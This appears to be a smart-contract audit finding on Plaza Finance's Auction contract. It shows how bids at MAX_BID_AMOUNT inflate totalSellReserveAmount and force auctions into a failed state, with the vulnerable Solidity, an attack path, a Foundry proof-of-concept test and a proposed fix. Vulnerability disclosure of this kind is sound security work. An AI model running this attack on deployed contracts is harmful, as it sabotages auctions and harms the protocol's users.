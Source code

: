 Quiet Seafoam Carp

High

# Attacker can manipulate totalSellReserveAmount to prevent successfull auction

### Summary

In [Auction.endAuction()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L336) function if `totalSellReserveAmount >= (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100` auction will end with `state = State.FAILED_POOL_SALE_LIMIT`. And because any bidder can place any `buyReserveAmount` (except if it's more than `MAX_BID_AMOUNT`) then `totalSellReserveAmount` can be easily manipulated.

### Root Cause

In the `Auction.endAuction()` function contract checks if `totalSellReserveAmount >= (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100` and if it's `true` sets `state = State.FAILED_POOL_SALE_LIMIT`:
```Solidity
/**
  * @dev Ends the auction and transfers the reserve to the auction.
  */
function endAuction() external auctionExpired whenNotPaused {
  if (state != State.BIDDING) revert AuctionAlreadyEnded();

  if (currentCouponAmount < totalBuyCouponAmount) {
    state = State.FAILED_UNDERSOLD;
  //@audit check totalSellReserveAmount
  } else if (totalSellReserveAmount >= (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100) {
      state = State.FAILED_POOL_SALE_LIMIT;
  } else {
    state = State.SUCCEEDED;
    Pool(pool).transferReserveToAuction(totalSellReserveAmount);
    IERC20(buyCouponToken).safeTransfer(beneficiary, IERC20(buyCouponToken).balanceOf(address(this)));
  }

  emit AuctionEnded(state, totalSellReserveAmount, totalBuyCouponAmount);
}
```
`totalSellReserveAmount` can be easily manipulated and set in [Auction.bid()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L125) function to amount more than `Pool` contract has:
```Solidity
/**
  * @dev Places a bid on a portion of the pool.
  * @param buyReserveAmount The amount of buy tokens (reserve) to bid.
  * @param sellCouponAmount The amount of sell tokens (coupon) to bid.
  * @return The index of the bid.
  */
function bid(uint256 buyReserveAmount, uint256 sellCouponAmount) external auctionActive whenNotPaused returns(uint256) {
  if (sellCouponAmount == 0 || sellCouponAmount > totalBuyCouponAmount) revert InvalidSellAmount();
  if (sellCouponAmount % slotSize() != 0) revert InvalidSellAmount();
  if (buyReserveAmount == 0) revert BidAmountTooLow();
  if (buyReserveAmount > MAX_BID_AMOUNT) revert BidAmountTooHigh();

  // Transfer buy tokens to contract
  IERC20(buyCouponToken).safeTransferFrom(msg.sender, address(this), sellCouponAmount);

  Bid memory newBid = Bid({
    bidder: msg.sender,
    buyReserveAmount: buyReserveAmount,
    sellCouponAmount: sellCouponAmount,
    nextBidIndex: 0, // Default to 0, which indicates the end of the list
    prevBidIndex: 0, // Default to 0, which indicates the start of the list
    claimed: false
  });

  lastBidIndex++; // Avoids 0 index
  uint256 newBidIndex = lastBidIndex;
  bids[newBidIndex] = newBid;
  bidCount++;

  // Insert the new bid into the sorted linked list
  insertSortedBid(newBidIndex);
  currentCouponAmount += sellCouponAmount;
  //@audit buyReserveAmount can be more that Pool contract balance
  totalSellReserveAmount += buyReserveAmount;

  if (bidCount > maxBids) {
    if (lowestBidIndex == newBidIndex) {
      revert BidAmountTooLow();
    }
    _removeBid(lowestBidIndex);
  }

  // Remove and refund out of range bids
  removeExcessBids();

  // Check if the new bid is still on the map after removeBids
  if (bids[newBidIndex].bidder == address(0)) {
    revert BidAmountTooLow();
  }

  emit BidPlaced(newBidIndex,msg.sender, buyReserveAmount, sellCouponAmount);

  return newBidIndex;
}
```

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. Attacker creates bid with `MAX_BID_AMOUNT`
1.1. If `(IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100` is still more than `totalSellReserveAmount` create another bid with `MAX_BID_AMOUNT`
2. After auction expired call `Auction.endAuction()` function

Moreover by adding few bids with `MAX_BID_AMOUNT` attacker can cause overflow in the new bids to make sure that his bids will not be removed.

### Impact

Attacker can manipulate the `state` of `Auction` contract.

### PoC

Add this test to `/test/Auction.t.sol`:
```Solidity
function testAttackerCanBlockSuccesfullEndOfAuction() public {
  address attackBidder = address(0x1001);
  uint256 mintAmountReserveToken = 1e11;
  uint256 bidAmount = 5e11;

  //mint reserve token to the pool
  weth.mint(address(pool), mintAmountReserveToken);

  //bidder creates highest bid
  vm.startPrank(bidder);
  usdc.mint(bidder, bidAmount);
  usdc.approve(address(auction), bidAmount);
  auction.bid(mintAmountReserveToken, bidAmount);
  vm.stopPrank();

  //attackBidder creates same bid with highest possible buyReserveAmount
  vm.startPrank(attackBidder);
  usdc.mint(attackBidder, bidAmount);
  usdc.approve(address(auction), bidAmount);
  auction.bid(auction.MAX_BID_AMOUNT(), bidAmount);
  vm.stopPrank();

  //add time to end auction
  vm.warp(block.timestamp + 15 days);
  
  auction.endAuction();

  Auction.State state = auction.state();
  //state is FAILED_POOL_SALE_LIMIT
  assertEq(uint256(Auction.State.FAILED_POOL_SALE_LIMIT), uint256(state));
}
```
In cmd run command:
```Shell
forge test --mt testAttackerCanBlockSuccesfullEndOfAuction
```
Output:
```Shell
Ran 1 test for test/Auction.t.sol:AuctionTest
[PASS] testAttackerCanBlockSuccesfullEndOfAuction() (gas: 499690)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.45ms (203.71µs CPU time)
```

### Mitigation

Check only `reserveAmount` of the winner in `Auction.endAuction()` function and in `Auction.bid()` function check `buyReserveAmount <= (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100`:
```Solidity
/**
  * @dev Ends the auction and transfers the reserve to the auction.
  */
function endAuction() external auctionExpired whenNotPaused {
  if (state != State.BIDDING) revert AuctionAlreadyEnded();

  if (currentCouponAmount < totalBuyCouponAmount) {
    state = State.FAILED_UNDERSOLD;
  //@audit only winner's buyReserveAmount is in check
  } else if (bids[highestBidIndex].buyReserveAmount >= (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100) {
      state = State.FAILED_POOL_SALE_LIMIT;
  } else {
    state = State.SUCCEEDED;
    Pool(pool).transferReserveToAuction(totalSellReserveAmount);
    IERC20(buyCouponToken).safeTransfer(beneficiary, IERC20(buyCouponToken).balanceOf(address(this)));
  }

  emit AuctionEnded(state, totalSellReserveAmount, totalBuyCouponAmount);
}

/**
  * @dev Places a bid on a portion of the pool.
  * @param buyReserveAmount The amount of buy tokens (reserve) to bid.
  * @param sellCouponAmount The amount of sell tokens (coupon) to bid.
  * @return The index of the bid.
  */
function bid(uint256 buyReserveAmount, uint256 sellCouponAmount) external auctionActive whenNotPaused returns(uint256) {
  if (sellCouponAmount == 0 || sellCouponAmount > totalBuyCouponAmount) revert InvalidSellAmount();
  if (sellCouponAmount % slotSize() != 0) revert InvalidSellAmount();
  if (buyReserveAmount == 0) revert BidAmountTooLow();
  //@audit check reserve amount
  if (buyReserveAmount > (IERC20(sellReserveToken).balanceOf(pool) * poolSaleLimit) / 100) revert BidAmountTooHigh();
  ...
}
```